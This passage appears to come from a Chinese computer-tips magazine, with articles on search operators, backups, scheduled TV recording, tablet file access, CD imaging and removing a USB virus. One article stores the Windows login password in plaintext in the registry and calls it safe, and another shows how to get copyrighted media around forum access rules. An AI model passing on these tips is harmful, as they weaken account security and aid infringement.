- 旅游搜索“去哪儿”：www.qunar.com
- 美食、餐馆搜索大众点评网：www.dianping.com

还有许许多多，你要根据自己平时经常涉及的领域范围去搜搜定位。这里不再详细罗列。

### 二、排除干扰 有效搜索

我曾在网上搜索下载一本《黄帝内经》，在搜索框输入“中医 黄帝内经”，搜索结果却出现大量的“购物指南”一词，原因是很多网上书店有《黄帝内经》这本书。这些都是我不想要的信息，也许你翻腾了半天也找不到你要下载的电子版图书。为了避免出现网上书店的信息，我们可以将搜索关键词改为“中医 黄帝内经 -购物”，这样，有“购物”一词的网页便不会出现在搜索结果中了。

技术提示：如果要避免搜索某个词语，可以在这个词前面加上一个减号（“-”，英文字符），但在减号之前必须留一个空格。

### 三、指定范围 专网专搜

找到一个很好的个人网站，里面有很多霍金的介绍，但不知道是否有关于《时间简史》的文章，可是网站没有提供“站内搜索”这一功能，网站栏目内容繁多，一时翻不出来，怎么办呢？没关系，搜索引擎帮助你。只需在搜索框里输入“时间简史 site:www.xxx.com”即可。

技术提示：要在某个特定的域或站点中进行搜索，可以在关键词后空一格，再输入“site:（网站域名）”。

### 四、通过论文关键词搜索论文

如果我想搜索一篇地质学论文，但我记不住论文的标题是什么，只记得关键词里有“随钻柱”一词，那么我们只需在搜索框里输入“地质 intitle:随钻柱”即可。

技术提示：一般的论文都有一定的格式，除了标题、正文、附录，还有论文关键词、论文摘要等。而论文主题通常会出现在网页标题中，要寻找标题中包含关键词的文章，可以输入“intitle：标题中需包含的关键词”。

### 五、网址里面也有搜索机会

经常下载文件的朋友会发现，下载链接地址都包含文件的后缀名。比如下载一首MP3歌曲，地址栏会显示歌曲的链接地址：http://www.gxbsjx.com/music/music/40634/Y2Jjam6nZ25ia2dpZ2pvaTE.mp3。许多时候，我们只要输入“歌曲名 inurl:mp3”就可以直接获得包含歌曲名的页面搜索结果。MP3可以替换为wma、rm等多种音乐后缀名，也可以替换为photo、jpg、gif等来搜索图片，更可以替换为download来搜寻软件。比如，我们要搜索“千千静听”这款播放软件，只需输入“千千静听 inurl:download”。

技术提示：inurl是一个功能强大的指令，它可以直接从网站的URL入手，直接挖掘信息。只要在关键词后输入“inurl:URL中应包含的字符”，一切尽在掌握中。不过，inurl所涉及的关键词只能是英文字母或者拼音，而且后面不能有空格。

### 六、特定格式文档的精准搜索

网页找起来实在费劲，当我们需要权威性的、信息量大的专业报告或者论文时，利用inurl找特定格式的文件太麻烦，有没有简单一点的方法？当然有。如果要寻找《资本论》的Word文档格式，只需在搜索框里输入“资本论 filetype:doc”就可以了。

技术提示：要搜索特定格式的文档，可以在关键词后空一格，再输入“filetype:（文档后缀名）”

搜索可用的常见文档后缀名有：
- Word文档.doc
- Excel文档.xls
- PDF文档.pdf
- PowerPoint文档.ppt
- RTF文档.rtf
- Flash文件.swf

小提示：各种搜索技法不是孤立的，它们往往可以综合使用。如果我们搜索PDF格式的《时间简史》的序言，那么可以在搜索框里输入“霍金 时间简史 -购物 filetype:pdf intitle:序言”，试一下，是不是无用的信息少了很多呢？

### 七、联想的魅力——折射词搜索

使用折射搜索服务AWWWB.COM（http://cnw.awwwb.com/），可以获得传统搜索引擎无法提供的惊喜结果。折射词可大大节省搜索时间，获得相关结果。在搜索资料时，让您从沙里淘金的劳累升华到点石成金的享受。

我们也可以安装折射词软件（AWWWB.COM折射词2.0软件下载：http://comcn.awwwb.com/xx700.aspx）

重要提示：AWWWB.COM折射词基于微软的.net3.5框架开发，需要事先安装免费Net3.5框架，以免无法安装和运行软件。部分网友的Win XP已经含有.net3.5框架；Win 7基本上都已含有Net3.5框架

### 小技巧：选择搜索词的窍门

搜索的结果好坏要首先从关键词上做文章，可见关键词选择是搜索效果好坏的关键所在。

- 1. 简洁的原则 如果你想找到一个问题的答案，可以选取能够代表这个问题的关键词来进行搜索。使用简洁且有代表性的关键词作为搜索词，其搜索结果往往比使用一个表述过长的问题要好。例如，你想知道如何才能买到《电脑爱好者》，可以输入“购买《电脑爱好者》”，比直接输入“请问怎样才能买到《电脑爱好者》杂志”查询效果更好。
- 2. 代表性原则 另一个方面，如果你想了解某一事件的具体信息，可以选择所有能够代表该事件特征的关键词作为搜索词。例如，你想知道订阅《电脑爱好者》的信息，那么输入“订阅《电脑爱好者》”，比直接输入“《电脑爱好者》”查询效果更好。
- 3. 关键词最佳数目 用一个关键词搜索，结果往往会太泛泛。用两个以上关键词搜索，往往又会因其中的某个词不准确而影响搜索结果的有效性。实践证明，恰当地定义两个关键词是最为行之有效的搜索方法。

总之，搜索词要既能包含你需要了解的信息特征，又不包含其他冗余信息。这个看似简单的方法，往往不能被人们用好，所以在搜索前选用关键词时，不妨先不要急于输入，动一动脑筋，想好关键词以后再动手不迟。（文/闻达）

# 不用外部工具 打造大型‘数码相框’

用过Windows Vista或Windows 7的人都知道，系统自带的自动定时更换桌面背景图片的功能很实用，它能够将你的电脑轻易打造成一个超级“数码相框”。

但是，Windows XP却没有这样的功能，所以人们往往需要借助于一些外部的屏保软件来实现这一功能。其实，不依靠外部软件，用微软自己的增强组件就可以实现这个实用功能。

微软有很多实用的组件没有包含在操作系统的默认功能中。例如，可以自动定时更换桌面背景图片的DesktopShow组件就是其中之一。安装一下这个组件，你的桌面背景图片就会按照你设定的时间间隔自动变换显示图片了。

- 第一步：在微软网站搜索下载名为DesktopShow.exe的程序，下载完成后双击执行安装。
- 第二步：通过“开始→运行”在“运行”对话框中输入Desk.cpl命令，打开“显示属性”对话窗口，你会发现新增了一个“壁纸自动换”选项卡。
- 第三步：打开新增的“壁纸自动换”选项卡，选择“开启桌面壁纸自动换”复选框。单击“浏览”按钮，添加一个包含多幅图片的文件夹。在“频率”选项组中设定自动更换桌面背景图片的间隔时间，然后确定即可。

小提示：如果想更换一组新的照片作为你的桌面背景，需要重新设置文件夹吗？不用！你可以先将原先的图片移走或删除，之后把新的图片拷贝到先前存放背景图片的文件夹中，这样就不用设置文件夹的路径了。更为方便的是，你可以将那个存放照片的文件夹在桌面建立一个快捷方式，以后要给“数码相框”换内容，只需双击后换这个文件夹中的照片即可。（文/江山）

勤、快加省心 成就系统备份达人

说起系统备份，许多人都长期养成一个不良习惯，安装好了系统从来不知道备份，系统坏了再用安装盘重新安装一次，重装系统，即便是用各种Ghost盘，看起来很快捷，但其实并非如此，一些后续工作诸如软硬件驱动升级、系统补丁和病毒库升级以及各类软件安装等，还是挺麻烦的。其实，还有更快、更省心的方法可以为你提供体贴的服务。

## 一、系统备份最好“勤”一点

也许你没有每天备份系统的习惯，而是遇到系统出了问题才重装，或者选择每隔几个月重装一次系统。那么，请你回顾一下重装一次系统需要多长时间？打驱动和系统补丁以及升级杀毒软件病毒库又需要多少时间？重新安装自己惯用的那些工具软件又需要多长时间？也许你觉得重装一个系统，把上面这些加起来也大不了是半天的时间。那么，万一你工作正忙的时候系统罢工需要重装，你不着急吗？如果有一种好方法能每天在不知不觉中自动为你的系统备份，出了问题你只需要三两分钟就恢复到昨天、前天或若干天前的状态，我想你不会拒绝吧！因此，我还是建议你养成勤备份系统的习惯，当然，不需要你每天都亲自动手，这里的“勤”是指让电脑勤做这份工作，以防不测。

## 二、系统备份讲究一个“快”字

备份一个系统，动不动就需要十来八个GB的数据存储空间，虽然现在的主流硬盘容量不在乎这点空间耗费，但备份所用的时间消耗，恐怕是大家最不想消受的了。那么，有没有更节省时间、更快速的系统备份方案呢？有！用差异备份或增量备份。

### 1. 建立完全备份包是基础

要说差异备份或增量备份，我们不能不说完全备份，如果你第一次要备份系统的时候，你只能选择这种备份方法，只有这样才能获得一个基础的系统数据备份包，而这也是在后续进行差异备份和增量备份时所必须的一项基础工作。做这项工作前需要安装一个ATI软件并做一次完全备份，但为了以后的长期安全和省心，这是绝对值得的一件事情。

以使用专业备份工具Acronis True Image Home 2009（简称ATI）为例，完全备份系统的方案如下。

第一步：通过系统主界面左下角的单Backup and Restore选择My Computer选项，进入备份整个硬盘或分区的向导窗口，在这个窗口中选择你要备份系统分区（一般是第一块硬盘Disk 1的第一个分区，即标有Pri Act的那个分区）。

第二步：沿着向导向下执行，指定系统备份文件的路径和文件名，需要注意的是，在目标文档选择的地方要选择Create new backup archive一项，以便形成一个全新的完全备份文件。

第三步：之后在选择了备份压缩方法以及其他一些必要的备份选项后，执行备份操作即可生成一个完全的系统备份文件。

### 2. 能够最快还原的备份方案

在完成了第一次完全备份之后，我们可以用差异备份的方法来节省备份时间和提高备份效率了。假如我们的备份大周期是一个星期，小周期是一天。通常，在一周之内我们可以采取完全备份加差异备份的方法进行系统备份。在星期一进行完全备份，在星期二至星期五进行差异备份，也就是说从周二开始，备份工作均是和周一的备份包作比对，只备份有差异的数据。这样，如果在星期五数据被破坏了，则你只需要还原星期一完全的备份和星期四的差异备份。

差异备份具体操作的一般步骤与上面的完全备份方法相同，只是注意备份的起始文件要选择此前生成的那个完全备份文件，另外，一定要修改备份方法选项（Backup method）为Differential（差异备份）。

优势分析：

使用这种策略，一周内备份数据需要的时间，一天比一天增多，但还原数据所需要的时间相对来说就较少。

### 3. 每天工作量最小的备份方案

如果你觉得上面的办法依然比较费时和漫长，那么可以采取完全备份加增量备份的一周备份方案。这种备份方案的具体思路是，在星期一进行完全备份，在星期二至星期五进行增量备份，也就是说周二之后的备份均是针对前一天相比变化的数据进行备份。这样，每天的备份工作量就小得多了。如此一来，假设在星期五时数据被破坏了，则你需要还原星期一正常的备份和从星期二至星期五的所有增量备份。

增量备份具体操作的一般步骤与上面的完全备份方法相同，只是注意备份的起始文件要选择开始生成的那个完全备份文件。另外一定要修改备份方法选项（Backup method）为Incremental（增量备份），然后要选择下面的选择项Create a new full backup after，并选择周期为7天，同时选择Remove old archive选项，这样表示在七天后执行方案会自动生成一个完全备份包，然后重新执行增量备份，以此类推，循环往复。

优势分析：

采用这种策略备份数据，相比差异方案，每天不需要很多的时间，但到出了问题，需要还原数据时，需要使用相对于差异备份较多的时间，但是，毕竟备份是以防万一，出问题的几率总是要远远小于不出问题的几率，因此，从系统总体使用效率和备份对电脑使用的影响程度上来说，这种方案应该是效率最高的一种。

## 三、系统备份，省心更重要

以上两个示例尽管高效，但并不十分省心，因为仍然需要你每天点一个“开始备份”按钮。对于我们这些信息时代的懒人来说，每天点一个按钮有时候恐怕也很难熬，那么有没有更省心的方法呢？有！

其实，备份系统不需要人为干预也可自动进行。你只要在建立备份方案的时候，建立按计划时间执行的自动备份类型的方案即可。具体方法是，在ATI软件的主界面中选择Tasks and Log一项，然后在右侧窗口中选择Scheduled tasks选项卡，接着在选项卡窗口的空白处激活鼠标右键菜单，从中选择Create New Backup Task即可，接下来的操作与上面两个案例中介绍的步骤相同，只是需要你在备份时间和周期这几个选项上按需灵活进行选择即可。这样下来，备份工作就完全进入自动化操控过程了，你只需保证电脑在设定的时间是开着的即可。如果怕后台备份影响你的操作，可以选择把时间定在中午吃饭的时间段。

小提示：

后台自动备份系统是ATI的一大绝对优势，对于Ghost为核心的备份程序来说，要想边干活边备份你正在使用的系统是不可能的，此类的程序目前似乎也很少见。

（文/杨宇）

种子吃紧 资料下载有窍门

音乐、影视版权收紧，以共享种子的形式提供服务的资源门户网站纷纷转行或关门，但是，这并不表示，网上的种子失去了作用，其实，只要你能找到资源的种子，下载照样可以继续。

## 一、VeryCD 不再，下载种子犹存

VeryCD是大家非常熟悉的资源共享门户网站，然而，在政策的大环境下，这个深受人们喜爱的网站也不得不转型。该网站上有许多资源信息，也许你还没来得及下载，就发现上面的链接已被屏蔽掉了，难道只能留下遗憾不成？其实，问题还是可以找到解决办法。

至少有两种途径可以解决问题。

第一种方法是使用SimpleCD在线服务（http://www.simplecd.org），SimpleCD在线是对原VeryCD网站资源的一个简单克隆，服务器在国外，原来存在于VeryCD网站的资源链接在这里基本可以找到，只是网址的主地址不同，资源编号完全对应相同。

除了可以按原来的资源编号来定位资源外，我们也可以在SimpleCD页面中用关键词来搜索资源。

第二种方法是使用SimpleCD桌面版，与在线版不同的是，桌面版是将所有VeryCD的资源链接打包，供用户安装到本地使用，这样，如果在线版被封杀或失去作用，桌面版照样可用，桌面版定期发布数据升级包，只需下载升级包即可得到最新的资源信息。

作为备份VeryCD全站的桌面版SimpleCD Desktop，SimpleCD离线下载地址为 http://desktop.simplecd.org/download.htm

小知识：电骡子共享资源的特色

不同于BT类资源下载，电骡子资源的有效性时间一般要相对长一些，许多年前的种子一般也还有效，照样可以下载，而BT类资源则生存时间较短，当一个种子发布以后，过些时候种子可能就无源下载了。

## 二、仿照格式，搜索论坛种子

好不容易找到一部电影或连续剧的下载链接，点击下载时才发现论坛需要注册，回帖后方可看到下载链接，而注册论坛和回帖又谈何容易，因为注册需要买邀请码，下载种子也需要积分。

在这种情况下，我们既不需要去购买邀请码，也不用去赚积分，也许资源同样可以免费找到。下面举例说明。

比方说，我们找到的需要积分下载的剧集的链接名称为“[国产][妈妈的罗曼史][国语35集][DVD-RMVB]”，此时，如果你仅仅用“妈妈的罗曼史”和“下载”等字样很难一下子找到其他可用的有效下载链接，而如果改用“[国产][妈妈的罗曼史][国语35集][DVD-RMVB]”这样的关键词，往往很快可以找到相同资源的免费论坛下载地址，这样，不用积分甚至不用注册用户，就可以快速下载到自己需要的资源。

## 三、专用社区搜索特定资源

对于某些特定的资源，比如电子图书，如果用百度等普通搜索引擎进行“海”搜，则效果很低，而且也不一定能找到你所需要的资源。这时，如果能发挥专用社区的作用，搜索的效率往往会更高。比如，我们可以到新浪爱问共享频道，那里是专门的资源共享集散地，一般可以找到你需要的图书资料。

## 四、参考网店搜罗图书资源

在爱问资料共享中心看到一本书，也许这本好书只是一个系列丛书中的一本而已，但你只从这本书的封面知道丛书的名字，不知道该丛书还有哪些其他图书。怎么能在爱问共享中下载到该套丛书的其他相关图书呢？

这时，我们可以根据当当、卓越或图书出版社的书目信息，获得该套图书的更多图书名称，然后返回爱问共享搜索页面，输入其他图书的名称，搜索下载其他书籍。

这样一来，从一本好书出发，顺藤摸瓜，就可能获得更多甚至整套丛书的下载，取得意想不到的收获。

（文/夏仔）

球赛不能耽误 电脑定时录制

我是个球迷，不少人和我一样习惯于在电视上看体育直播。精彩体育节目是定时定点播出的，但是，因为我们总免不了有一些繁杂的事务，所以难以保证正点收看这些节目。由于转播权等问题，网上也不一定有视频能够下载，例如去年的一场国际球赛，由于我当时有事不能收看，本以为在网上可以找到，但结果找了半天也未果，痛失良机。更进一步，即使能够下载到，下载也需要时间吧。在这种情况下，我给电脑装个几十元钱的带有自动录制功能的电视卡，这样就可以让自己的电脑定时开机，启动录制软件，自动定位到相应频道，帮我录制完节目后再自动关机。这样，当我回来后就能随时观看我自己喜爱的节目，以后再也不怕耽误球赛了。

## 一、钟点一到 电脑自动开机

即使你不在家，电脑是关着的。精彩节目开始之前，电脑也能自己启动。当然，这需要你事先来设置一下。
此功能需要在BIOS中设定，并且你的主板的高级电源管理设置必须支持这个功能。不过，现在大多数的主板支持这一功能，放心使用吧。

第一步：启动系统按DEL，进入BIOS，然后选中 “Power Management Features” （电源管理设置），回车进入，在电源窗口中找到 “Restore On AC/ Power Loss” 项，按回车，然后通过方向键设置其值为 “Power On”。

小提示：
不同型号的电脑进入BIOS的热键可能有所不同，有的是F2，有的是F10或其他，具体需要根据你所用电脑的情况来选择进入设置。

第二步：选中 “Resume On RTC Alarm” 并按回车，接着通过方向键设置其值为 “Enable”。

第三步：选中 “RTC ALARM DATE” 按回车，然后将其值设定为 “EVERYDAY”，表示每天都进行一样的操作。按照同样的方法，分别将 “RTC Alarm Hours” “RTC Alarm Minute” “RTM Alarm Second” 设置为 “07” “15” “00”（这表示开机时间为早上的7:15:00，假设这场球赛是在7:20开始，留5分钟时间启动系统，登录系统并启动录制软件应该足够了）。全部设置好后按F10，保存并重新启动。

小提示：
由于不同的主板的BIOS不一样，有些主板的设置可能与上面的有所不同，但只要记住在电源管理设置中找到 “Wake Up” 字样就行了，因为这是设置定时开机的选项。

还有一个必须注意的是，如果你使用的是台式机，插主机电源电缆的插座电源必须是开着的。如果你关掉了电源插座，再有能耐的电脑也不会自动开机。笔记本电脑只要保证自带电池充足即可。
经过如上设置之后，你的电脑就会在每天设定时间一到，自动启动操作系统。

## 二、开机之后 电脑自动登录

这一步我们来说明一下添加自动录制计划任务前的一些准备工作。首先，要保证你的电脑自动启动后能够进入操作系统桌面，如果电脑停留在需要选择账户和输入密码的界面，需要人为干预，那肯定是不行的。所以，需要事先将你的电脑设置为启动后不需要人为输入密码的形式，但这并不意味着，你不需要设定登录密码，因为不设登录密码是不安全的，容易被黑客利用，因此，我们需要把电脑设置为登录时能自动输入密码的那一种，具体方法如下：

以Windows XP为例，我们可以通过修改注册表来实现自动登录。

第一步：在运行中输入 “REGEDIT” 打开注册表编辑器的[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]。

第二步：在右方的窗口中找到[DefaultUserName]子键，将数值数据改为用户登录账户名。如果不存在该键值，可以在右边的窗口中右键新建字符串，接着将 “新值#1” 重命名为 “DefaultUserName” 后进行修改。

第三步：在右侧窗口中找到[DefaultPassword]，如果不存在，可以新建，然后将其键值设定为你的密码。

第四步：按照以上的方法，我们在右边的窗口中新建一个名为[AutoAdmin Logon]的键值，将其值设为1，然后退出，重新启动就可以实现自动登录了。

## 三、提前设置 电脑自动录制

带有自动录制功能的电视卡，一般都配有播放和录制软件。通过到设置中心设置定时计划，可以设置在某一时间到来之时自动启动电视播放软件，并切换到设定的频道播放节目，同时开启录制功能，将该频道播放的节目以一定的视频格式录制并保存到硬盘的某个文件夹中。具体步骤如下：

第一步：进入设置中心添加录制计划。电视卡不同，设置方法也不同，但道理是一样的。

第二步：设定频道和录制时间。弄清楚你要录制的是哪个频道，节目的播出时间是几点几分开始，节目持续多长时间，几点结束。这几个数字一定要在设置时看仔细了，弄错了将劳而无功，所获将阴差阳错。

第三步：设定录制格式和文件存放位置。录制格式最好选择压缩率高、省空间的格式，文件位置存放要选择有充裕空间的硬盘分区。

## 四、节目录完 电脑自动关机

体育节目的时间是基本固定的，因此，开始录制的时间和录制完成的时间点也是已知数。当节目自动录制完成之后，因为我们人不在机器旁，所以需要机器能自动关掉系统。为此我们需要在事前进行自动关机设置。
如果电视卡软件带有自动关机设置功能，设置一下自动关机时间即可。如果没有这样的功能，可以手动用如下方法来设置一个自动关机任务。

第一步：在系统 “附件” 组的 “任务计划” 窗口中双击 “添加任务计划”，下一步接着点 “浏览”，在 “C:\WINDOWS\SYSTEM32” 目录下找到SHUTDOWN.EXE程序并点 “打开” 按钮。

第二步：将执行这个任务的时间设置为 “一次性”，下一步将起始时间设置为 “9:05”（假设9点节目结束），接着下一步按照要求输入用户名及密码，选择 “在单击完成时，打开此任务计划的高级属性” 选项，并点 “完成”。

第三步：在弹出的SHUTDOWN窗口中点 “任务”，然后在 “运行” 栏中输入 “C:\WINDOWS\system32\shutdown.exe -s -t 60”（其中-s表示关闭计算机，-t 60表示60秒后自动关闭计算机。关机时间可根据自己的需要设置），点击 “应用”，并重新输入用户密码，最后确定。

经过如上种种设置之后，我们只需保证电源插座是开着的，连接电脑电视卡的有线电缆中的信号是畅通的，一切就OK了，关掉电脑电源，到时候电脑就会为你录制好体育节目。你什么时候有时间，回来开机欣赏就可以了。

（文/林忆）

内网外网 平板访问“无线”通

这几年，安卓系统一路高歌猛进，今年以来，安卓平板也是遍地开花。一个实际的问题也随之而来，安卓平板和普通PC采用不同的操作系统，它们之间如何交换数据？出差在外如何交换数据？用有线传输？不方便，也不时尚。现在无线信号无处不在，作为时尚达人，当然应该拒绝束缚，选择无线才是 “硬” 道理！

## 一、平板无线访问内网PC

在公司的无线局域网中，如何从平板电脑上访问其他电脑上的文件呢？

例如，要从内网某台电脑中复制几个文件到平板，使用文件管理软件ES就行。

在内网中，将平板电脑连入WiFi，启动ES文件浏览器。默认情况下会显示平板TF卡中的文件，调出菜单，选择 “共享”。

再点击 “搜索” 按钮（放大镜图标）；搜索局域网中的所有电脑，很快显示出所有局域网中的电脑。要访问某台电脑，只需要双击该电脑。再在弹出窗口中输入访问该电脑的用户名和密码。如果需要经常访问，建议勾选 “记住密码”，可以免去每次都要输入账户和密码的麻烦。这里要访问的电脑IP地址为 “192.168.1.254” 的这台电脑，输入账户和密码。

再一步步进入到所需文件所在目录。如果需要复制多个文件，先点击多选按钮，再逐一点选文件，黄色的表示已选中的文件。用手指长按选中的任一文件，会弹出快捷菜单，也可以在选择文件后，调出菜单，再进入 “操作”，选择 “复制” 命令。再将视图切换到本地（即平板电脑TF卡中），粘贴即可。

通过ES文件浏览器，可以对PC中的文件进行打开、剪切、复制、重命名和删除等常用操作，ES文件浏览器下载网址：http://apk.gfan.com/Product/App3105.html

## 二、外网平板轻松访问电脑

出差人员，有时会遇到急需资料不在身边的情况。如果这份资料就在公司服务器中，怎么办？通过一个名为网灵远程控制的软件，就可以将千里之外的资料拷到平板中，完全不用麻烦别人。

### 1. 平时做好准备

先在服务器上安装网灵远程控制被控端，再在平板上安装网灵远程控制主控端。安装被控端时需要先注册网灵服务ID，再在对话框中填入网灵服务ID和认证密码，一路按提示操作完成被控端的安装。安装完成后，网灵受控端程序默认会自动启动，然后在平板上安装网灵远程控制主控端。

### 2. 远程拷贝文件

需要资料时，在平板上启动网灵远程控制主控端，输入网灵服务ID和密码，登录后，很快就看到了一台电脑。查看电脑名，正是公司的服务器。双击该电脑，在对话框中选择 “智能连接”，然后在对话框中选择 “文件管理”。进入所需文件所在位置，用手指长按该文件，在弹出的菜单中选择 “下载文件”。再选择平板电脑TF卡中的一个目录，点击屏幕下方的 “保存”，很快就将千里之外服务器中的文件拷到了平板电脑的TF卡中。

网灵远程控制在局域网和外网中均可使用。
网灵远程控制电脑端（被控端）下载网址：http://www.skycn.com/soft/62583.html
网灵远程控制平板端（主控端）下载网址：http://apk.gfan.com/Product/App66960.html

## 三、内网电脑轻松访问平板

经常使用平板电脑，时间长了，垃圾文件很多，需要清理清理，直接在平板上操作并不方便。作为出差人员，经常需要把出差过程中的一些文件与同事们分享，这也是常事。通过 “无线传书” 软件可轻松实现。

在平板电脑上安装软件 “无线传书”，启动后软件会告知平板电脑详细的FTP访问地址。如 “ftp://192.168.1.135:9999”。记下这个地址，然后在内网PC的地址栏中输入 “ftp://192.168.1.135:9999”，确认后出现一个有关Windows防火墙的对话框，允许访问就可以整理文件或复制所需的资料了。

（文/邹民）

## 一站搞定 套装光盘脱机用

兰兰报名参加英语培训，培训机构发给她一套《名著学习的革命》英语学习软件，共有9张光盘，其中第一张有安装程序，必须安装了这张光盘才能使用所有光盘，而且在安装后使用时还必须要求插入对应的光盘。但是，每次学习的时候都要从中挑出自己学习的那张盘并插入运行，学完后还得弹出光盘并收藏起来。兰兰感觉这样很繁琐，问我有什么最省事的办法能把这套光盘拷贝到硬盘中用。我给兰兰找到一个省事的办法。

也许，你可能已经想到先用镜像制作软件为9张光盘制作镜像，将镜像文件拷贝到电脑中，然后再用某个虚拟软件虚拟出光盘来使用。没错！这种想法是正确的，但操作起来还是有点麻烦。下面我介绍一种比较省事的办法，它只用一个WinMount软件就能实现一站式套装软件脱机使用服务，而且使用中只点一下右键即可完成“光盘”的加载和卸载。使用这个方案，只需一次性将这些光盘打包成9个压缩文件并拷入电脑中，然后就可以把你的那些光盘锁起来，再也不用插光盘来使用了。

### 一、压缩一下，Zip也当“镜像”用

首先要保证你的电脑中安装有一款免费工具软件WinMount。安装之后，在资源管理器的右键菜单中，默认就增加了WinMount的选项。使用右键菜单中的WinMount选项，我们就可以很方便地将光驱中的每一张光盘打包成为Zip、RAR或7Z等格式了。

先放入第一张光盘“名著学习的革命——安徒生童话精选”（这张盘同时也是带有安装文件的那张），用Ctrl+A组合键全选光盘根目录下的所有文件和文件夹（也包含隐含文件），然后在选区上选择右键菜单命令“WinMount→添加到”，在弹出的窗口中定义压缩文件所在的盘符（假设放在硬盘F分区）和文件名（这里命名为“名著学习的革命——安徒生童话精选.zip”），压缩格式我们选择默认的Zip（当然选择RAR或7Z也可以），然后点击“确定”就可以生成第一张盘的Zip文件了（见图1）。

用同样的方法生成其余的八张光盘的压缩文件，并存放到硬盘F分区中，以上九个压缩文件，也是我们下面使用中要用到的“镜像文件”。至此，虽然软件还没有安装，但我们已经不需要这套光盘了，你可以将它们收藏起来甚至送给好友了。

### 二、虚拟加载，先行安装DISK1

接下来我们看如何在电脑中安装这套光盘。在第一张光盘镜像文件“F:\名著学习的革命——安徒生童话精选.zip”上点击鼠标右键，选择“WinMount→Mount至”命令，在接下来弹出的驱动器选择界面中定义一个你希望今后作为“光盘”使用的驱动器盘符（这时的光盘其实是虚拟光盘），例如我选择I盘（如图2），按“确定”之后，回到资源管理器看，我们发现新增了一个光驱符号“I:”，点击进入，发现有SETUP.EXE等一系列安装文件和文件夹。点击这个文件就可以安装了，安装过程和普通光盘安装过程没有什么两样，执行安装之后，通过开始菜单程序组中为这张光盘分配好的启动快捷方式即可运行本张光盘中的学习软件了。

> 温馨提示：记住安装盘符，方便后续使用
这里需要特别提醒的是，为了方便以后各张光盘的使用，你需要记住你第一次安装软件时所用的盘符（比如本例的I:盘），如果在用其他光盘镜像压缩包的时候用了别的盘符，那么程序运行将会出现错误，不能进入学习主界面

### 三、正确加载，顺利使用其余光盘

在安装了光盘的主程序之后，其余的光盘通过主程序调用，但由于安装时给主程序确定了一个固定的光驱位置，这个主程序已经记住了安装光盘所在的光驱盘符，因此，每次运行光盘，它只知道傻傻地去读这个盘符。基于这种情况，我们每次使用光盘的时候，必须先虚拟一张I:盘出来才可以，如果随意按软件默认模拟出一个盘符来，很可能造成软件找不到光盘的错误发生，具体使用方法如下。

首先，在任一个要使用的虚拟文件Zip包上点击鼠标右键并选择“WinMount→Mount至”命令，然后选择I盘符作为虚拟光盘盘符。

接着，到开始菜单程序组中运行光盘启动快捷方式，即可启动这张光盘了。记住，每次用完后最好卸载掉这张光盘，以免在下次用其他光盘镜像的时候，因盘符已经被占用而影响正常使用。

上面介绍的方法基本上适用于市面上可见的绝大多数套装软件光盘脱机使用。这对于嫌使用光盘太麻烦或者希望多人共享使用一套光盘的朋友来说是再方便不过的了。使用这种方法，你只要把多个镜像文件一次性拷贝给共享者，他们也可以用同样的方法不用光盘就能使用这套软件了。但提醒用户，这种用法要在法律规定的法定许可和合理使用范围内使用，谨防因大面积非法传播而引来官司。

(文/木友兰)

## 找回“丢失”的相片

家中的数码相机使用CF卡存储相片，用读卡器连接到电脑中来读取相片。前不久出现了一个怪现象：相机中的CF卡在电脑中打开后，找到DCIM目录，打开时竟弹出一个对话框，而里面的相片竟然不翼而飞了，整个目录都是空的，怀疑是电脑系统的问题，于是用读卡器在另一电脑上试了试，还是老样子，那些相片到底跑到哪了？难道要给我玩“隐身”吗？

抱着试试的心态，重新把CF卡接入到电脑中。打开CF卡所在盘，通过“文件夹选项”窗口取消“隐藏文件和文件夹”选择，点选“所有文件和文件夹”，单击“确定”后，结果CF卡的目录仍没有变化，也许是病毒在作祟，使显示文件的属性失效了。看来要打注册表的主意了，单击“开始→运行”，在命令框中输入“regedit”，“确定”后进入注册表编辑器。在注册表中，依次进入[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer\Advanced\Folder\Hidden]，把主键SHOWALL下的键CheckedValue（如果没有Dword值就要新建一个）的值改为1，同时把主键NOHIDDEN和NOHIDORSYS下的键CheckedValue其键值为0，重新启动电脑，终于把文件显示属性找了出来，再次打开CF卡所在盘，发现有两个一模一样的文件夹图标，接着在文件夹选项窗口中把“隐藏已知文件类型的扩展名”前的钩去掉，确定后发现两个一样的文件夹扩展名不同，其中一个是EXE格式，还有一个是MSDOS.COM文件，到此终于明白了，原来在电脑上读取CF卡时，不小心染上病毒了，致使JPG格式文件被隐藏，原来的文件夹也被屏蔽起来，而我们所看到的只是一个伪装的文件夹，所以打开后什么也没有。

下面就好办了，先将病毒文件清除掉，然后就可以找回所有的相片文件。

接入CF卡后，单击“开始→运行”，在运行命令框中输入“MSCONFIG”，单击“确定”，把第一行的对钩去掉，单击“确定”，重启XP系统。

在电脑自检完毕后，长按F8键，选择安全模式。在安全模式下，打开“我的电脑”，用上面的方法更改“文件夹选项”。接入CF卡，单击“开始→运行”，在运行命令框中输入“attrib l:”（I盘为CF卡所在的盘符），发现I盘的文件属性为系统和隐藏，所以该目录下的文件在窗口界面是无法显示的。接着在DOS命令窗口下输入“attrib -r -s -h /s /d”，把文件属性还原出来，在DOS命令窗口下输入“dir /ad”命令，进入I盘，发现多了几个文件夹，其中一个是DCIM.exe，另一个是RECYCLER.exe，还有一个MS-DOS.com和Autorun.inf。打开I盘，把所有扩展名为exe格式文件选中，右击删除。但是MS-DOS.com还是无法删除，在DOS命令窗口下输入“attrib”，显示该文件的属性是只读和系统，当务之急是把只读和系统去掉，然后用命令把MS-DOS.com删除了，用DOS命令来解决。

接着，单击“开始→搜索→搜索文件和文件夹”，在要搜索文件和文件夹名下输入“MS-DOS.exe Autorun.exe”，把“搜索条件”下“高级搜索”复选框给选中，把“高级搜索”下面的所有复选框选中，然后进行搜索，最后把左边窗格搜到的文件选中后全部删除。

重启XP系统，打开“I盘”，所有相片终于出现了。

(文/王昌红)

## 让网卡同时支持DHCP和固定IP

随着网络的流行，我们经常会面临不同的网络环境。而由于各种网络环境不同，有些地方并没有提供DHCP服务，这时，如果我们想上网，只有手工来修改IP，再换到有DHCP服务的网络环境时又要重新设置网卡，这样显得太麻烦。有幸的是，Windows可以让IP拥有“双重身份”，解决这个问题。

